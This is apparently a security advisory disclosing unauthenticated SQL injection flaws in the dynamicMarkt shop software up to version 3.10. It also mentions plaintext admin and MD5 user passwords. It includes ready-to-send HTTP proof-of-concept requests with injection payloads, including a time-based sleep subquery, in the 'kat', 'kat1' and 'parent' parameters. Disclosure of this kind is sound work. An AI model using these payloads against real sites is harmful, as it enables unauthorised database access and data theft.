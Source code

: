 # Multiple Vulnerabilities in dynamicMarkt Software
I was unable to contact the vendor. The [homepage](http://dynamicmarkt.de/) returns 500 Internal Server Error for at least 10 month now.

You should know, that the admin backend password is stored in plaintext inside the database!
The user passwords are hashed using MD5. dynamicMarkt sets a weak 7 char long password by default.

These vulnerabilities affects *dynamicMarkt* <= 3.10.

## SQL Injections (unauthenticated)

### *kat* param
```
GET /index.php?page=category&topic=offers&do=show&kat=1169231751%20or%202819%3d02819 HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: dm_lang=deu
```

### *kat1* param (unauthenticated)
```
POST /index.php HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Cookie: dm_lang=deu

art=kaeufer&kat1=(select*from(select(sleep(20)))a)&Submit=Weiter&page=signup
```

### *parent* param (unauthenticated)
```
GET /index.php?page=category&action=&topic=offers&uid=36&oid=&do=shop&art=2&parent=020911029%20or%202590%3d02590&line=neu HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: dm_lang=deu
```
